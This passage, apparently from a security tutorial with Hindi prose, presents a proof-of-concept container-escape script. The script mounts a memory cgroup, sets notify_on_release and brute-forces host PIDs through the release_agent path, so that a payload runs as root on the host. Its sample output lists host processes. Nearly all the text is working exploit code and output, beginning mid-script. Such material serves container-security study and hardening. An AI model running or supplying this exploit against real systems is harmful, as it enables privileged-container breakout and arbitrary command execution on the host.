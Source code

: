 ```bash
OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
if [ $((${TPID} % 100)) -eq 0 ]
then
echo "Checking pid ${TPID}"
if [ ${TPID} -gt ${MAX_PID} ]
then
echo "Exiting at ${MAX_PID} :-("
exit 1
fi
fi
# Set the release_agent path to the guessed pid
echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
# Trigger execution of the release_agent
sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```
निष्पादित किए गए PoC को एक विशेषाधिकार प्राप्त कंटेनर के भीतर से निम्नलिखित जैसा आउटपुट प्रदान करना चाहिए:
```bash
root@container:~$ ./release_agent_pid_brute.sh
Checking pid 100
Checking pid 200
Checking pid 300
Checking pid 400
Checking pid 500
Checking pid 600
Checking pid 700
Checking pid 800
Checking pid 900
Checking pid 1000
Checking pid 1100
Checking pid 1200

Done! Output:
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 11:25 ?        00:00:01 /sbin/init
root         2     0  0 11:25 ?        00:00:00 [kthreadd]
root         3     2  0 11:25 ?        00:00:00 [rcu_gp]
root         4     2  0 11:25 ?        00:00:00 [rcu_par_gp]
```